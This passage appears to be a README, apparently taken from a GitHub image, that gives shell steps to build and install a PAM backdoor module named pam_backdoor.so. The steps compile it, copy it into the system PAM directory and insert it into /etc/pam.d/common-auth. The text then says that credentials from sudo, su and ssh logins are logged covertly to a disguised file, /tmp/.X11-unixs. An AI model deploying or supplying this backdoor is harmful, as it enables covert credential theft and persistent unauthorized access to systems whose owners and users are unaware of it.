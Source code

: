 sudo apt update  
sudo apt install libpam0g-dev  
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o  
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth  

Now test the backdoor by doing any authentications such as
sudo su
su -
or you can also try ssh logins as well.
all these creds are logged by the backdoor to the disk at the location a legitimately looking file but not.
cat /tmp/.X11-unixs
